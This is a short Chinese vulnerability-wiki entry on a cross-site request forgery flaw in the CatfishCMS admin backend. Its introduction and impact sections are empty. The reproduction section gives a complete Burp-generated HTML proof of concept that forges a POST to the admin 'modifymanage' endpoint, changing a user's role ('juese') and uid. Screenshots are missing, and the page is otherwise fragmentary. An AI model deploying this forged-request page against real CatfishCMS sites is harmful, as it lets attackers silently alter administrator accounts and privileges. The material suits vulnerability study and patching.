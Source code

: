 CatfishCMS后台csrf
==================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

首先需要登录后台

    <html>
      <!-- CSRF PoC - generated by Burp Suite Professional -->
      <body>
      <script>history.pushState('', '', '/')</script>
      <form action="http://0-sec.org/index.php/admin/index/modifymanage.html?c=73" method="POST">
          <input type="hidden" name="uid" value="73" />
          <input type="hidden" name="juese" value="3" />
          <input type="hidden" name="verification" value="05f176843c20e12c1364e80b9869ac17" />
          <input type="submit" value="Submit request" />
        </form>
      </body>
    </html>

修改前

![](/Users/aresx/Documents/VulWiki/.resource/CatfishCMS后台csrf/media/rId24.png)

修改后

image
